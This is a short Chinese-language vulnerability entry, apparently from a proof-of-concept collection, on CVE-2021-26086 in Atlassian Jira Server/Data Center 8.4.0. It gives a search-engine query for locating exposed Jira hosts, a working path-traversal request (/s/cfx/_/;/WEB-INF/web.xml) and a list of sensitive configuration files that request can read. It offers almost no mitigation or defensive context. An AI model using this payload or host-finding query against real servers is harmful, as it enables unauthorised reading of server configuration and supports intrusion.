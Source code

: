 # Atlassian Jira cfx 任意文件读取漏洞 CVE-2021-26086

## 漏洞描述

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

## 漏洞影响

<a-checkbox checked>Atlassian Jira Server/Data Center 8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1634610793448-229e5b0d-d6d4-4de1-824a-b9d3a3446651-20220313163314705.png)

验证POC

```php
/s/cfx/_/;/WEB-INF/web.xml
```

![img](../../../.vuepress/public/img/1634610826119-05c0b0fe-2266-46bb-8b2a-9997824e6724-20220313163314907.png)

可读取敏感配置文件

```php
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```

